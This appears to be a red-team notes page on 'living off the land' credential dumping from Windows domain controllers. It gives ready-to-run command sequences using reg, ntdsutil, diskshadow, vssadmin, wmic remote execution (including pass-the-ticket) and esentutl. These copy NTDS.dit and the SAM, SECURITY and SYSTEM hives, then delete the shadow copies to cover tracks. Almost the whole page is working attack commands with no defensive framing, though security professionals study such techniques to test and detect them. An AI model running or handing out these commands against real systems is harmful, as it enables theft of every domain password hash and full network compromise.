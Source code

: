 # Living off the Land

## 01 - Command Prompt

### 1.1 - Enumerate Registry Files

```
C:\> reg.exe query [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

### 1.2 - Extract Shadow File

#### 1.2.1 - Install From Media (IFM)

```
C:\> ntdsutil.exe "activate instance ntds" "ifm" "create full c:\temp" quit quit

C:\> ntdsutil.exe "ac in ntds" "ifm" "cr fu c:\temp" q q

C:\> dir c:\temp
```

#### 1.2.2 - DiskShadow

^c70a55

Write down the diskshadow commands in a text file to automate the process.

```
C:\> mkdir C:\exfil

C:\> type C:\diskshadow.txt
set context persistent nowriters
add volume c: alias ShadowVolume
create
expose %ShadowVolume% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %ShadowVolume%
reset
```

Then extract shadow file and SYSTEM from registry. Once two files are present go to [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - Credential Access and Dumping/Windows/Active Directory/Volume Shadow Copy/01 - Manual/Unix Shell|section to use impacket to extract credentials via hashdump]].

```
C:\> diskshadow.exe /s c:\diskshadow.txt
C:\> reg.exe save hklm\system c:\exfil\system.bak
C:\> dir c:\exfil
```

#### 1.2.3 - VSSAdmin.exe

```
C:\> vssadmin.exe create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\extract.dit

C:\> vssadmin.exe create shadow /for=C: 2>&1

C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\NTDS\NTDS.dit C:\ShadowCopy 2>&1

C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\System32\config\SYSTEM C:\ShadowCopy 2>&1

C:\> dir C:\ShadowCopy\

C:\> vssadmin.exe delete shadows /for=C:
```

Can be performed laterally via `wmic.exe`.

```
C:\> wmic.exe /node:<domain_controller_IP> [/user:<DOMAIN>\<username> /password:<password>] process call create "cmd.exe /c vssadmin 
create shadow /for=C: 2>&1"

C:\> wmic.exe /node:<domain_controller_IP> [/user:<DOMAIN>\<username> /password:<password>] process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\NTDS\NTDS.dit C:\ShadowCopy & \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\System32\config\SYSTEM C:\ShadowCopy 2>&1"

C:\> dir \\<domain_controller_IP>\C$\ShadowCopy\

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\NTDS.dit c:\Windows\Temp\NTDS.dit

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\SYSTEM c:\Windows\Temp\SYSTEM

C:\> wmic.exe /node:<domain_controller_IP> [/user:<DOMAIN>\<username>] [/password:<password>] process call create "cmd /cvssadmin delete shadows /for=C: 2>&1"
```

You can also pass the ticket.

```
C:\> wmic.exe /authority:"kerberos:<domain>\<computername>" /node:<domain_controller_IP> process call create "cmd.exe /c vssadmin create shadow /for=C: 2>&1"

C:\> wmic.exe /authority:"kerberos:<domain>\<computername>" /node:<domain_controller_IP> process call create "cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\NTDS\NTDS.dit C:\ShadowCopy & \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\System32\config\SYSTEM C:\ShadowCopy 2>&1"

C:\> dir \\<domain_controller_IP>\C$\ShadowCopy\

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\NTDS.dit c:\Windows\Temp\NTDS.dit

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\SYSTEM c:\Windows\Temp\SYSTEM

C:\> wmic.exe /authority:"kerberos:<domain>\<computername>" /node:<domain_controller_IP> process call create "cmd.exe /cvssadmin delete shadows /for=C: 2>&1"
```

Delete shadow files.

```
C:\> vssadmin.exe List Shadows

C:\> vssadmin.exe Delete Shadows /For=C:

C:\> vssadmin.exe delete shadows /all /quiet
```

#### 1.2.4 - esentutl.exe

```
C:\> esentutl.exe /p c:\temp\ntds.dit
```

```
C:\> esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam
esentutl.exe /y /vss C:\Windows\System32\config\SECURITY /d c:\temp\security
esentutl.exe /y /vss C:\Windows\System32\config\SYSTEM /d c:\temp\SYSTEM
```

## 02 - Powershell

### Enumerate Registry Files

```
C:\> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters -Value "DSA Database file"
```

### Extract Shadow File

TODO: Include powershell cmdlets to convert some of the techniques below

---
## References

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

- [Pentestlab Blog: Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)

- [Active Directory Security: How Attackers Dump Active Directory Database Credentials](https://adsecurity.org/?p=2398)

- [Red Team Notes: Dumping Domain Controller Hashes Locally and Remotely](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration)

- [Red Team Notes: Dumping SAM via Esentutl](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-sam-via-esentutl.exe)

- [Dumping Domain Controller Hashes via wmic and Vssadmin Shadow Copy](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-domain-controller-hashes-via-wmic-and-shadow-copy-using-vssadmin)

- [DiskShadow: The Return of VSS Evasion, Persistence, and Active Directory Database Extraction](https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/)

- [Password Auditing: How to Extract and Analyse Domain User Passwords](https://www.surecloud.com/resources/blog/extract-analyse-domain-user-passwords)

- [Ultimate IT Security: Creating a shadow copy of ntds.dit and the SYSTEM file](https://www.ultimatewindowssecurity.com/blog/default.aspx?p=bbcddadf-677f-4f60-9d55-914f631c3d1a)

- [Netwrix: Extracting Password Hashes from the Ntds.dit File](https://blog.netwrix.com/2021/11/30/extracting-password-hashes-from-the-ntds-dit-file/)